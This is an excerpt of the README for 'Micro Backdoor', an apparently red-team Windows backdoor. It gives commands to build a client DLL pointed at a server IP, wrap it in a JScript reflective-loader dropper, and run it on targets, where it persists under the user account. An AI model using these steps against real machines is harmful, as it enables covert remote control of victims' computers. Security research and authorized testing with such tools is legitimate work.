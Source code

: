 Configure the client binary:

```
$ ./client_builder.py client.dll [server_IP]
```

Also, you can specify `client_amd64.dll` file to use x86_64 version of the client, or `client_debug.dll`/`client_amd64_debug.dll` to use debug build of the client that prints diagnostic messages into the standard Windows debug output. Before running `client_builder.py` you need to generate RSA key pair, see [Configuring the server](#configuring-the-server) section of this document.  

You can use configured client binary with your own delivery tool: exploit, reflective loader, etc. Or you can generate JScript client dropper:

```
$ ./client_encoder.py dll_inject_script client.dll > dropper.js
```

Please note, that JScript/PowerShell reflective loader generated by `client_encoder.py` is working only with 32-bit versions of the client binary on both 32-bit and 64-bit Windows targets. 64-bit client binaries are provided only for convenience in case if you need to use them with your own loaders and tools.  

After the `dropper.js` was generated you can deploy it on your targets. In Windows command line you can run JScript files by running `cscript.exe dropper.js`. Or you can just double click JS file in Windows Explorer to run the dropper. Micro Backdoor client provides persistence within current user account used to run the dropper, it can work with any privileges and medium integrity level.

## Developed by

Dmytro Oleksiuk (aka Cr4sh)

cr4sh0@gmail.com<br/>
http://blog.cr4.sh<br/>
[@d_olex](http://twitter.com/d_olex)<br/>


